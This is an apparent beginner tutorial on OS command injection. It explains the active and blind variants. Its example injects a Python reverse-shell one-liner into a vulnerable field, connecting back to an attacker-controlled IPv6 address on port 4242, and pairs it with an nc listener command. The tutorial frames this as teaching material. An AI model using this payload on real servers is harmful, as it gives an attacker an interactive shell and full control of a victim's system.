  #                                           Web-Vulnerabilites

### OS Command Injection :

### What is OS Command Injection ?


OS Command Injection is server side  web vulnerablities where attacker execute " system command"  like id, whoami etc .
It is a web vulnerability that allows an attacker to take advantage of that made system call to execute operating system commands on the server.


### Types Of OS Commnad Injection :

                                  There are two types of OS command injection  such as :
                                                                           
                                                                                        i. Active OS command injection
                                
                                                                                        ii. Blind OS command injection

### Active OS Command Injection :


Active command injection will return the response to the user.  It can be made visible through several HTML elements. That means when a attacker execute " system command "  like ls ,server will return result of ls .(Attacker will se the result of ls ) .It is so easy to execute . 


### Blind OS Command Injection :
      
Blind command injection occurs when the system command made to the server does not return the response to the user in the HTML document . That means when a  attacker execute " system command "  like ls ,server will not return result of ls but  server execute ls command . For  , seening the result of  "system command " you must upload reverse shell on target / victim server . After ,upload  reverse shell on victim server , listen shell on attacker terminal using nc command . 


### Example :
         
         1. upload reverse shell :
                                  ; python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'

        2. listen reverse shell :

                                 nc -nvp 4242

Note : 
       1. Change ip according your local host ip 
       2. One can easily  upload shell if OS command injection is occured .
              
